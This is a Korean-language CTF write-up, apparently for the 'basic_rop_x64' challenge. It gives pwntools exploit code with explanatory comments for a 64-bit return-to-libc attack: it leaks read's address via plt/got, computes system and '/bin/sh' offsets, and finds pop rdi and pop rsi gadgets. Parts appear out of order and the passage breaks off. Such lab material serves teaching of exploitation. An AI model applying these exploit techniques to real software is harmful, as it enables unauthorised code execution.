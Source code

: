 ``` python

공격대상이 사용하는 libc 라이브러리 파일을 로드능
익스플로잇에서 system, str_bin_sh 등의 libc 심볼 주소를 얻기 위해 필요

ROP 객체 생성
주어진 ELF(e)에서 ROP 가젯ㅇ르 자동으로 찾아줌.
r.call("puts", [addr])처럼 함수 호출용 ROP 체인을 쉽게 생성 가
'''
p = process("./basic_rop_x64")
e = ELF("./basic_rop_x64")
libc = ELF("./libc.so.6", checksec=False)
r = ROP(e)

'''
실제 Return to libc 익스플로잇 준비 과정
plt(Procedure Linkage Table): 라이브러리 함수로 점프하는 트램펄린 코드 위치
got(Global Offset Table): 실제 libc 함수 주소가 저장되는 테이블
main : 프로그램의 main 함수 주소. -> 1차 페이로드 후 다시 main 으로 돌와와 2차 공격을 준비하는데 쓰임.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

'''
로드한 libc.so.6 에서 필요한 심볼들의 오프셋을 가져옴.
나중에 libc base 주소를 알아내면:
    libc_base = leaked_read - read_offset
    system_addr = libc_base + system_offset
    binsh_addr = libc_base + sh
이렇게 실제 런타임 주소들을 계산할 수 있음.
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh = list(libc.search(b"/bin/sh"))[0]

'''
ROP 객체 r을 이용하여 가젯을 찾을 수 있음.
ROP 가젯 = 프로그램 코드 안의 짧은 명령어 조각
pop rdi; ret -> 64비트에서 첫 번째 인자(RDI 레지스터)에 값을 세팅할 때 사용
pop rsi; pop r15; ret -> 두 번째 인자(RSI) 세팅할 때 사용 (R15는 덤으로 버림)
이렇게 찾은 가젯주소를 변수에 저장해 두고, 페이로드에서인자 세팅시 활용함
'''
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

```

#### stage 1
``` python
# 익스플로잇 개발할 때 프로세스 실행, 소켓 통신, 페이로드 제작, ROP 체인 생성 등을 편하게 해 준다.
from pwn import *

# pwntools 의 success() 는 초록색으로 로그를 출력해 줌.
def slog(symbol, addr):
    return success(symbol + ": " + hex(addr))

# 익스플로잇 실행 중에 송수신하는 패킷, ROP 체인, 페이로드 길이 등을 모두 출력함.
context.log_level = 'debug'

'''
로컬에서 바이너리(./basic_rop_x64)를 직접 실행하고 그 프로세스와 상호작용할 수 있게 함.
```